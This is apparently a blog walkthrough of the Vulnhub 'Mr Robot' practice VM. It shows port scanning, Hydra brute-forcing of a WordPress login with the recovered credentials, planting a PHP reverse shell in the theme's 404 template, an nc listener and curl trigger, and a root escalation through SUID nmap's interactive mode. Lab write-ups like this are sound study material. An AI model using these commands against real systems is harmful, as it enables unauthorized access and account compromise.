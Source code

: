 ```yaml
---
title:  "Vulnhub: Mr Robot - Walkthrough"
date:   2019-04-24 15:04:23
---
```


This might officially be the first box that i've ever attempted. I was a total pleb at the time and it took me hella long to figure it all out. In the end it was all worth it :)

<h2>Description from author</h2>
Based on the show, Mr. Robot.
This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.
The VM isn’t too difficult. There isn’t any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.

<h2>Information Gathering</h2>
Let’s start with a simple port scan.

```
mkdir scans
nmap -sC -Pn -sV -oA scans/nmap_initial 10.0.2.4
```

![](/assets/1/1.png)

Nothing too interesting, just a webserver running on the background and ssh. Let’s run Nikto in the background when we’re going to manually enumerate the web application.

```
nikto -h 10.0.2.4 -o scans/nikto.txt
```

Searched for common files and folders and found something interesting in /robots.txt!

![](/assets/1/2.png)

Great, the 1st out of 3 keys has been found. We also found an interesting .dic file. I downloaded them with wget. Going through the .dic file i found out that there were alot of duplicates, so i decided to sort the list and save it for later use.

```
cat fsocity.dic| sort -u | uniq > uniq_fsocity.dic
```

In the meantime our Nikto scan hs finished, let’s take a look at the results.

![](/assets/1/3.png)

WordPress is running in the background. The first thing i do when i know WordPress is installed is run wpscan but nothing too interesting came up. It wasn’t able to enumerate users either.

Luckily for us, we know we can bruteforce user and password in a HTTP form with Hydra. Here is the POST request made when we try to login in /wp-login.php

![](/assets/1/4.png)

In the POST request 2 parameters are being used; log and pwd. Let’s run Hydra to figure out the username and password!

```
hydra -vV -L uniq_fsocity.dic -p jiebs 10.0.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

After abit of waiting we get the username.

```
[80][http-post-form] host: 10.0.2.4 login: elliot password: jiebs
```

Let’s try and grab the password with the same .dic file now.

```
hydra -vV -l elliot -P uniq_fsocity.dic 10.0.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```

Again after a bit of waiting we get the password.

```
[80][http-post-form] host: 10.0.2.4 login: elliot password: ER28-0652
```

Great, we have the username and password. Let’s log in and start the exploitation part!

<h2>Exploitation</h2>
After some poking around in the wp admin panel i figured i should try and upload a reverse shell. I got mine from pentestmonkeys, make sure you change the ip and port. Go to Appearance > Editor > 404 Template (404.php) > paste the .php script > click Upload.

![](/assets/1/5.png)

Let’s make sure we’re listening to the port.

```
nc -lvp 1234
```

Once you’re listening to the port lets get our reverse shell going.

```
curl http://10.0.2.4/404.php
```

![](/assets/1/6.png)

Great, our reverse shell is running. Let’s quickly spawn a TTY shell and start snooping around!

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

After searching around i found an interesting directory(/home/robot) with the 2nd key!

![](/assets/1/7.png)

I tried to cat the 2nd key, however we get permission denied. Luckily we noticed the password.raw-md5 file which sounds really interesting!

![](/assets/1/8.png)

Looks like a password hash for the robot user! I went online and cracked the hash, result: “abcdefghijklmnopqrstuvwxyz”. Let’s go ahead and switch to the robot user.

![](/assets/1/9.png)

Let’s see if we can cat the 2nd key now that we’re on a low privileged user.

![](/assets/1/10.png)

Great, now lets move and get root!

<h2>Privilege escalation</h2>
After going through a bunch of directories and files looking for hints, i started looking at binaries with the SUID bit set.

![](/assets/1/11.png)

We can run nmap as root since it’s SUID bit is set. Let’s check out the version. In older versions of nmap you are able to run it in interactive mode and escape to shell. Since the SUID bit is set, we’ll be able to escape to ‘root’ shell.

![](/assets/1/12.png)

Let’s check out the root directory for the last flag.

![](/assets/1/13.png)

Thanks for reading and happy hacking!
